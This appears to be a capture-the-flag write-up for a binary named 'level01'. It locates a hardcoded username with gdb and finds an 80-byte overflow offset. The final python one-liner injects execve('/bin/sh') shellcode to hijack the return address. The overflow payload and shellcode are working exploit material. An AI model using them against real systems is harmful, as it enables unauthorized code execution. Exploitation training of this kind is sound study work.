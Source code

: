 
```
objdump -t level01 | grep bss
0804a040 g     O .bss	00000064              a_user_name

objdump -t level01 | grep text
080484d0 g     F .text	000000e6              main
08048464 g     F .text	0000003f              verify_user_name
```

```
disass main

 0x0804852d <+93>:	call   0x8048464 <verify_user_name>
 
 0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
```

```
disass verify_user_name

0x0804847d <+25>:	mov    $0x80486a8,%eax

(gdb) x/s 0x80486a8
0x80486a8:	 "dat_wil"
```

```
disass verify_user_pass

```
`cyclic 100`
```
Program received signal SIGSEGV, Segmentation fault.
0x61616175

Desktop cyclic -l 0x61616175
80
```

```
  0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
  0x08048585 <+181>:	mov    %eax,0x5c(%esp)
  
  b *main+181
  
  run 
  
  Enter Username: dat_wil
  Enter Password:
  AAAA
  
  x/80wx $esp
  0xffffd680:	0xffffd69c	0x00000064	0xf7fcfac0	0x00000001
  0xffffd690:	0xffffd8a1	0x0000002f	0xffffd6ec	0x41414141
```

also u can use the syntax:
`run < <(python -c 'print("dat_wil\nAAAA\n")')`
`run < <(python -c 'print("dat_wil")' && python -c 'print("AAAA")')` / `run < <(python -c 'print "dat_wil"' && python -c 'print "AAAA"')`

```
run < <(python -c 'print "dat_will"' && python -c 'print "A" * 80 + "BBBB"')
x $ebp+4
0xffffd6ec:	0x42424242
```
```
run < <(python -c 'print "dat_wil"' && python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 59 +  "\xff\xff\xd6\x9c"[::-1]')


x $ebp+4
0xffffd6ec:	0xffffd69c

x *0xffffd6ec
0xffffd69c:	0x99580b6a
```










